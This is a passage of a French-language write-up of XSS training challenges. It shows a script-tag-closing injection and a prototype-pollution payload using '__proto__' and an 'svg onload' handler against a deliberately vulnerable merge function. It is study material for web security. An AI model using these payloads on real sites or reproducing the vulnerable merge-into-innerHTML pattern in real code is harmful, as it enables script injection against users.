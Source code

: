 **Solution trouvée :**

```html
</script><script>alert(name)</script>
```

**Explication de l'injection :**\
Comme l'analyse HTML passe en première, on peut utiliser la balise de fermeture `</script>` pour terminer le script plus tôt. Et ainsi injecter `alert(name)` dans une autre balise `<script>`.

---

### `Prototype_Pollution`

**Consigne :**\
This is a classic prototype polution example, can you exploit it ?

> **Goal: `alert(name)`**

**Code présent sur la page :**

```html
<h1>Hello <span id="name"></span></h1>
<script>
const container = document.getElementById("name")
const isObject = obj => obj && obj.constructor && obj.constructor === Object;
function merge(dest, src) {
    for (var attr in src) {
        if (isObject(dest[attr]) && isObject(src[attr])) {
            merge(dest[attr], src[attr]);
        } else {
            dest[attr] = src[attr];
        }
    }
    return dest
}
const config = {}
const user = {name: "guest"}

merge(user, JSON.parse($user))  // L'injection se fait ici, à la place de $user

if (config.debug){
  container.innerHTML = JSON.stringify(user)
} else {
  container.innerText = JSON.stringify(user)
}
</script>
```

**Solution trouvée :**

```html
{"__proto__": {"debug": 1 }, "x" : "<svg onload='alert(window.name)'>"}
```

**Explication de l'injection :**\
Afin d'ajouter du code malveillant, il faut d'abord que `config.debug` soit vrai. Ici `user` et `config` sont tous deux de type `Objet`. Nous pouvons donc grâce à `__proto__` parcourir le prototype de l'objet et y injecter de nouveaux paramètres. Ainsi nous passons `config.debug` en vrai puis nous injectons la fonction `onload()` qui nous affichera l'alerte avec les données demandées.
